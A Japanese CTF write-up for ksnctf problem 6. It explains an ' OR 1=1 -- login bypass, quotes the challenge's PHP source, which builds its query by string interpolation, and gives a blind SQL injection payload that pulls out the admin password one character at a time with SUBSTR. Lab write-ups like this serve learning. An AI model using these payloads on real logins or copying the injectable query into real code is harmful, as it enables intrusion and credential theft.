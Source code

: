 # 問題6 
## 参考サイト
- [問題](https://ksnctf.sweetduet.info/problem/6)
- [解説](https://linuxnosusume.blogspot.com/2017/12/ksnctf-6-login.html)
- [urllib3](https://note.com/tomtom_0301/n/n980969ea4756)
- [SQL注入](https://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/502.html)

## 解法

### 1. 
以下をID欄に入力  
`' OR 1=1 --`  
これには以下の意味があり、この文字列をパラメータとして与えられた場合は、ユーザIDが常に返ってくる  
```
'       ： ひとつ前の「'」と対となり、文字列定数を終わらせる  
OR 1=1  ： uidの値に関係なく、検索条件を、真とさせる
--      ： それ以降の内容をコメントとして無視させる
```

結果として以下のページが返ってくる
```
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

上を開いてみた  
![ヒント結果](../images/p6_hint.png)


### 2. 
以下をID欄に入力  
`admin'  AND SUBSTR((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'--`  
adminのpassの1文字目がFと一致するため、Congraturation!が表示される
```
'       ： ひとつ前の「'」と対となり、文字列定数を終わらせる  
SUBSTR(文字列,開始の位置[,文字数])  ： 文字を切り出す
--      ： それ以降の内容をコメントとして無視させる
```


### 3.
この[コード](../codes/p6_soltion.py)を実行  
## メモ
**ブラインドSQLインジェクション**  
挿入したSQLに対する応答ページの違いから、データベース管理システムに関する情報（実行ユーザーやテーブル名など）を盗み出す
